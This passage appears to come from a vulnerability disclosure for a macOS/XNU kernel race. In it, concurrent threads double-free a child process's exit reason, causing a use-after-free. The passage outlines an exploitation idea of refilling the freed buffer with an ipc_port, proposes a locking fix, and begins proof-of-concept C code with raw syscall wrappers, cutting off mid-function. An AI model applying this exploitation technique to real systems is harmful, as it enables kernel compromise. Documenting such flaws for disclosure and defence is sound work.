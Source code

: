 ```C
```
At 3.a, os_reason_free checks if cur_reason equals NULL. You can bypass this check by killing the child proc with reason 9. Then this function free all the resouces and reason itself.   
So the first thread frees the exit reason and makes child->p_exit_reason a dangling pointer; the second thread does double free child->p_exit_reason again.  
A potential attack is to refill the freed buffer with some interesting bytes, e.g. ipc_port and then the second thread can help free the target ipc_port.  
A potential fix is to set child->p_exit_reason to NULL with lock protection or within an atomic instruction.  
  
## PoC Code
The following PoC code is not stable for triggering the UAF vulnerability but can help understand the root cause.  
```C
#include <iostream>
#include <unistd.h>
#include <sys/proc_info.h>
#include <sys/syscall.h>


#define PROC_INFO_CALL_PIDINFO          0x2
#define PROC_PIDEXITREASONINFO          24
#define PROC_PIDEXITREASONBASICINFO     25

#define    SYS_kill             37
#define    SYS_proc_info        336
#define    SYS_wait4_nocancel 400

#define WQOPS_THREAD_RETURN        0x04


bool thread1started = false;
bool thread2started = false;
bool stopthread1 = false;
bool stopthread2 = false;
bool start_try = false;
pid_t g_pid = 0;

int proc_info(int32_t callnum,int32_t pid,uint32_t flavor, uint64_t arg,user_addr_t buffer,int32_t buffersize) {
    return syscall(SYS_proc_info, callnum, pid, flavor, arg, buffer, buffersize);
}

int kill(int pid, int signum, int posix) {
    return syscall(SYS_kill, pid, signum, posix);
}

int wait4_nocancel(int pid, user_addr_t status, int options, user_addr_t rusage) {
    return syscall(SYS_wait4_nocancel, pid, status, options, rusage);
}

// proc_info->proc_pidbsdinfo will get the bsdinfo
// callnum: PROC_INFO_CALL_PIDINFO
// pid
// flavor: PROC_PIDTBSDINFO
// arg: 1
// buffer
// buffersize
void print_pid_info(int pid) {
    proc_bsdinfo info;
    
    memset(&info, 0, sizeof(info));
```